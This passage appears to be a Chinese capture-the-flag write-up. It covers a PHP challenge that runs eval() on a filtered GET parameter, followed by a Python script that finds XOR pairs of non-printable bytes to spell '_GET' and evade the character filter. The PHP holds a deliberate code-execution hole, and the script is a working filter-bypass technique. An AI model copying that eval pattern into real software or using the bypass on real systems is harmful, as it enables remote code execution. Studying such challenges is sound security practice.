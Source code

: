 	
	$hhh = @$_GET['_'];
	
	if (!$hhh){
	    highlight_file(__FILE__);
	}
	
	if(strlen($hhh)>18){
	    die('One inch long, one inch strong!');
	}
	
	if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
	    die('Try something else!');
	
	$character_type = count_chars($hhh, 3);
	if(strlen($character_type)>12) die("Almost there!");
	
	eval($hhh);
	?>
	```      




数字，字母都被过了，用异或       
要异或浏览器不能解码的不可见的字符    

[大佬的脚本](https://blog.csdn.net/weixin_43940853/article/details/103749357?utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7Edefault-4.control&dist_request_id=1330144.34969.16182323962248803&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7Edefault-4.control)        








	```python
	import string
	ee= string.printable
	print(ee)   ##输出可打印字符
	a= map(lambda x:x.encode("hex"),list(ee))
	_=[]
	G=[]
	E=[]
	T=[]
	print(list(ee))
	for i in range(256):
	    for j in range(256):
	        if (chr(i) not in list(ee)) & (chr(j) not in list(ee)):
	            tem = i^j
	            if chr(tem)=="_":
	                temp=[]
	                temp.append(hex(i)[2:] + "^" + str(hex(j))[2:])         ##转为十六进制是为了缩短长度
	                _.append(temp)
	            if chr(tem)=="G":
	                temp=[]
	                temp.append(hex(i)[2:] + "^" + str(hex(j))[2:])
	                G.append(temp)
	            if chr(tem)=="E":
	                temp=[]
	                temp.append(hex(i)[2:] + "^" + str(hex(j))[2:])
	                E.append(temp)
	            if chr(tem)=="T":
	                temp=[]
	                temp.append(hex(i)[2:] + "^" + str(hex(j))[2:])
	                T.append(temp)
	print(_)
	print(G)
	print(E)